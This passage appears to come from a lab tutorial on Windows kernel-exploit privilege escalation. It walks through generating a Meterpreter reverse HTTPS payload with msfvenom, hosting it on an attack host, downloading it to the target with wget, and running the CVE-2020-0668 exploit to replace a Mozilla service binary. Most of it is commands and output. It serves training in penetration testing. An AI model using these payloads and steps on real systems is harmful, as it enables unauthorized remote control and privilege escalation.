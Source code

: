 Kernel Exploits

```shell-session
swmpdnky@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 645 bytes
Final size of exe file: 7168 bytes
```

#### Hosting the Malicious Binary

We can download it to the target using cURL after starting a Python HTTP server on our attack host like in the `User Account Control` section previously. We can also use wget from the target.

Kernel Exploits

```shell-session
swmpdnky@htb[/htb]$ $ python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.43.13 - - [01/Mar/2022 18:17:26] "GET /maintenanceservice.exe HTTP/1.1" 200 -
10.129.43.13 - - [01/Mar/2022 18:17:45] "GET /maintenanceservice.exe HTTP/1.1" 200 -
```

#### Downloading the Malicious Binary

For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.

We need to do this because running the exploit corrupts the malicious version of `maintenanceservice.exe` that is moved to (our copy in `c:\Users\htb-student\Desktop` that we are targeting) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` which we will need to account for later. If we attempt to utilize the copied version, we will receive a `system error 216` because the .exe file is no longer a valid binary.

Kernel Exploits

```powershell-session
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

#### Running the Exploit

Next, let's run the exploit. It accepts two arguments, the source and destination files.

Kernel Exploits

```cmd-session
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                                       

[+] Moving C:\Users\htb-student\Desktop\maintenanceservice.exe to C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

[+] Mounting \RPC Control onto C:\Users\htb-student\AppData\Local\Temp\nzrghuxz.leo
[+] Creating symbol links
[+] Updating the HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Tracing\RASPLAP configuration.
[+] Sleeping for 5 seconds so the changes take effect
[+] Writing phonebook file to C:\Users\htb-student\AppData\Local\Temp\179739c5-5060-4088-a3e7-57c7e83a0828.pbk
[+] Cleaning up
[+] Done!
```
